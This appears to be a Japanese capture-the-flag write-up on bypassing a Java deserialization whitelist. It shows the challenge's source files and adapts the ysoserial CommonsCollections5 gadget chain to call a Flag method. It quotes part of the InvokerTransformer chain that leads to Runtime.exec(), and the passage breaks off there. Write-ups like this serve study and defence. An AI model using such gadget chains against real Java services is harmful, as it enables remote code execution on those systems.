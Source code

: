 ```java
  
  public CustomOIS(ServletInputStream is) throws IOException {
    super(is);
  }
  // Modified input to ObjectStreamClass for testing locally
  public Class<?> resolveClass(ObjectStreamClass des) throws IOException, ClassNotFoundException
  {
    if (!Arrays.asList(whitelist).contains(des.getName())) {
      throw new ClassNotFoundException("Cannot deserialize " + des.getName());
    }
    return super.resolveClass(des);
  }
}
```
`Flag.java`  
`Serializable`インターフェースを定義したFlagクラスの`getFlag()`メソッドを呼び出せば、例外をスローしながらFlagを出力してくれる。  
```java
package com.trendmicro.jail;

import java.io.Serializable;

public class Flag implements Serializable {
  static final long serialVersionUID = 6119813099625710381L;
  
  public Flag() {}
  
  public static void getFlag() throws Exception { throw new Exception("<FLAG GOES HERE>"); }
}
```
`Person.java`  
本来はこっちをデシリアライズするつもりのやつ。  
```java
package com.trendmicro;

import java.io.Serializable;

public class Person implements Serializable {
  public String name;
  
  public Person(String name) {
    this.name = name;
  }
}
```
`CustomOIS.java`に`"org.apache.commons.collections.keyvalue.TiedMapEntry", `が含まれているのでcommons collectionsの脆弱性がありそう。  
以下に記載されているExploitを使うと、`InvocationHandler`をシリアライズしているがこれはホワイトリストには登録されていないためデシリアライズできない。  
https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
https://qiita.com/yoshi389111/items/63c5b496ea308593bc92  
ysoserialのcommons collection5なら代わりに`BadAttributeValueExpException`をシリアライズしていてこれはホワイトリストに入っているからOK  
https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java  
RCEじゃなくてFlagクラスの`getFlag`メソッドを呼べればよいので、以下の部分を後者に変更する。  
`ConstantTransformer`と`InvokerTransformer`の連続で`java.lang.Runtime.getRuntime().exec()`を呼び出すイメージ？  
```java
		final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
```